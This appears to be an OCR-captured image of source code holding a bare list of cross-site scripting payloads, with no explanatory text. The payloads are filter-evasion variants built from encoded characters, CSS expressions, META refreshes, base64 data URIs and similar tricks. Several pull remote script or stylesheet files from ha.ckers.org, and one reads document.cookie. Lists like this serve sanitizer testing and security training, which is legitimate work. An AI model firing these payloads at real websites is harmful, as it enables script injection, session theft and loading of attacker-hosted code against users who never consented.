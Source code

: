       <IMG SRC="jav	ascript:alert('XSS');">
      <IMG SRC="jav&#x09;ascript:alert('XSS');">
      <IMG SRC="jav&#x0A;ascript:alert('XSS');">
      <IMG SRC="jav&#x0D;ascript:alert('XSS');">
      perl -e 'print "<IMG SRC=java\0script:alert(\"XSS\")>";' > out
      <IMG SRC=" &#14;  javascript:alert('XSS');">
      <SCRIPT/XSS SRC="http://ha.ckers.org/xss.js"></SCRIPT>
      <BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>
      <SCRIPT/SRC="http://ha.ckers.org/xss.js"></SCRIPT>
      <<SCRIPT>alert("XSS");//<</SCRIPT>
      <SCRIPT SRC=http://ha.ckers.org/xss.js?< B >
      <SCRIPT SRC=//ha.ckers.org/.j>
      <IMG SRC="javascript:alert('XSS')"
      <iframe src=http://ha.ckers.org/scriptlet.html <
      \";alert('XSS');//
      </TITLE><SCRIPT>alert("XSS");</SCRIPT>
      <INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');">
      <BODY BACKGROUND="javascript:alert('XSS')">
      <IMG DYNSRC="javascript:alert('XSS')">
      <IMG LOWSRC="javascript:alert('XSS')">
      <STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br>
      <IMG SRC='vbscript:msgbox("XSS")'>
      <IMG SRC="livescript:[code]">
      <BODY ONLOAD=alert('XSS')>
      <BGSOUND SRC="javascript:alert('XSS');">
      <BR SIZE="&{alert('XSS')}">
      <LINK REL="stylesheet" HREF="javascript:alert('XSS');">
      <LINK REL="stylesheet" HREF="http://ha.ckers.org/xss.css">
      <STYLE>@import'http://ha.ckers.org/xss.css';</STYLE>
      <META HTTP-EQUIV="Link" Content="<http://ha.ckers.org/xss.css>; REL=stylesheet">
      <STYLE>BODY{-moz-binding:url("http://ha.ckers.org/xssmoz.xml#xss")}</STYLE>
      <STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>
      <IMG STYLE="xss:expr/*XSS*/ession(alert('XSS'))">
      exp/*<A STYLE='no\xss:noxss("*//*");xss:ex/*XSS*//*/*/pression(alert("XSS"))'>
      <STYLE TYPE="text/javascript">alert('XSS');</STYLE>
      <STYLE>.XSS{background-image:url("javascript:alert('XSS')");}</STYLE><A CLASS=XSS></A>
      <STYLE type="text/css">BODY{background:url("javascript:alert('XSS')")}</STYLE>
      <STYLE type="text/css">BODY{background:url("javascript:alert('XSS')")}</STYLE>
      <XSS STYLE="xss:expression(alert('XSS'))">
      <XSS STYLE="behavior: url(xss.htc);">
      ¼script¾alert(¢XSS¢)¼/script¾
      <META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:alert('XSS');">
      <META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">
      <META HTTP-EQUIV="refresh" CONTENT="0; URL=http://;URL=javascript:alert('XSS');">
      <IFRAME SRC="javascript:alert('XSS');"></IFRAME>
      <IFRAME SRC=# onmouseover="alert(document.cookie)"></IFRAME>
      <FRAMESET><FRAME SRC="javascript:alert('XSS');"></FRAMESET>
      <TABLE BACKGROUND="javascript:alert('XSS')">
      <TABLE><TD BACKGROUND="javascript:alert('XSS')">
      <DIV STYLE="background-image: url(javascript:alert('XSS'))">
      <DIV STYLE="background-image:\0075\0072\006C\0028'\006a\0061\0076\0061\0073\0063\0072\0069\0070\0074\003a\0061\006c\0065\0072\0074\0028.1027\0058.1053\0053\0027\0029'\0029">
      <DIV STYLE="background-image: url(&#1;javascript:alert('XSS'))">
      <DIV STYLE="width: expression(alert('XSS'));">
      <BASE HREF="javascript:alert('XSS');//">